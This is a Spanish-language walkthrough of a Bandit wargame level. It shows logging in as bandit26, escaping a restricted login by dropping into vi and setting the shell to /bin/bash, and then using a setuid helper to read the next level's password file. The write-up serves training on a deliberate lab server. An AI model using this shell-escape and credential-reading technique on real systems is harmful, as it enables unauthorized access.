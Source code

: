 # Bandit
## Objetivo
¡Buen trabajo consiguiendo una concha! ¡Ahora date prisa y obtén la contraseña para bandit27!

## Datos de acceso
**Usuario:** bandit26
**Contraseña:** p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

## Solucion

``` shell
ssh bandit26@bandit.labs.overthewire.org -p2220
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

Connection to bandit.labs.overthewire.org closed.
//Recuerda que el bandit26 no te permitira entrar al servidor asi que aplicamos lo mismo que en el reto anterior

//teniendo la pantalla pequeña apretamos v y ponemos lo sigiente

v

:set shell=/bin/bash

:shell
//esto nos permitira entrat

bandit26@bandit:~$ ls -la
total 44
drwxr-xr-x  3 root     root      4096 Sep  1 06:30 .
drwxr-xr-x 49 root     root      4096 Sep  1 06:30 ..
-rwsr-x---  1 bandit27 bandit26 14872 Sep  1 06:30 bandit27-do
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
drwxr-xr-x  2 root     root      4096 Sep  1 06:30 .ssh
-rw-r-----  1 bandit26 bandit26   258 Sep  1 06:30 text.txt
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27

YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS

```
## Notas adicionales
Recordemos que hay servidores que ya no nos permiten entrar desde el inicio asi que devemos buscar la forma para bugear los mensajes de entrada para obtener los datos desde ahi.

## Referencias

## Comandos que puedes necesitar para resolver este nivel
ls